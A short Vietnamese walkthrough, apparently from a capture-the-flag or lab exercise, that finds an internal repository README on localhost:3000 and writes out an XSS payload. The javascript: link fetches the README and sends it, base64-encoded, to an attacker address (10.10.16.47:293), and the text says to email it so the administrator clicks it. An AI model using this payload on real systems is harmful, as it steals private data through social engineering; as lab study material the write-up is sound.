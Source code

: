 ![alt text](image-48.png)

•	Có đường dẫn nội bộ http://localhost:3000/administrator/Employee-management/, gợi ý rằng hệ thống đang chạy trên một server nội bộ.
•	Một file README chứa thông tin quan trọng có thể được truy cập tại http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md

Hướng khai thác : Ta tạo 1 payload XSS để lấy dữ liệu từ file README.md bằng cách để administrator  click vào payload XSS  để lấy dữ liệu 

```bash
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.16.47:293/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```
![alt text](image-49.png)

Gửi mail cho admin để admin kích hoạt payload XSS

